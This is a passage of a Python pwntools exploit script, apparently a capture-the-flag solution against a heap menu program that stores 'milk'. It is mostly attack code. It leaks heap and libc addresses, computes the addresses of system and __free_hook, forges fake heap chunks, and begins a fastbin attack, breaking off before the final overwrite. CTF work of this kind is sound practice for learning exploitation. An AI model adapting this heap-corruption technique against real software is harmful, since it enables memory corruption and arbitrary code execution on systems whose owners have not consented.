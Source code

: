 ```python
    p.recvuntil('color:')
    p.sendline(color)

def view():
    p.recvuntil('> ')
    p.sendline('view')

def remove(index):
    p.recvuntil('> ')
    p.sendline('remove')
    p.recvuntil('index : ')
    p.sendline(str(index))

def drink():
    p.recvuntil('> ')
    p.sendline('drink')

def ljust(astr, length, padding = 'a'):
    return astr.ljust(length, padding)

for i in range(20):
    put_milk('1', 'atack')
view()

p.recvuntil('[17] [')
leak_heap = u64(p.recv(6).ljust(8, '\x00'))
print 'leak_libc is', hex(leak_heap)
p.recvuntil('[18] [')
leak_libc = u64(p.recv(6).ljust(8, '\x00'))
print 'leak_libc is', hex(leak_libc)

drink()
put_milk(p64(leak_heap - 0x120) + p64(leak_heap - 0x120 + 0x28), 'attack')

payload = p64(leak_heap + 0x40) + p64(leak_heap + 0x60) + p64(leak_heap + 0xb0) + p64(leak_heap + 0xd0) + p64(leak_heap + 0x10) + p64(leak_heap + 0xd0)
payload = payload.ljust(0x50, 'b')
put_milk(payload, 'red')

if local:
    libc_base = leak_libc - 0x398b68
else:
    libc_base = leak_libc - 0x3C3B88
system_addr = libc_base + libc.symbols['system']

log.info('system_addr is '+ hex(system_addr))
free_hook = libc_base + libc.symbols['__free_hook']

put_milk('d'*0x50, 'red')
payload  = p64(0) + p64(0x41)
payload += p64(0) + p64(0)
payload += p64(0) + p64(0x51)
payload += p64(0) + p64(0)
payload += p64(0) + p64(0x41)
put_milk(payload, "red")


put_milk(ljust(p64(0) + p64(0) + p64(0) + p64(0x61) + p64(0) + p64(0), 0x50), 'red')

remove(1)
remove(0)

log.info("fastbin attack")
```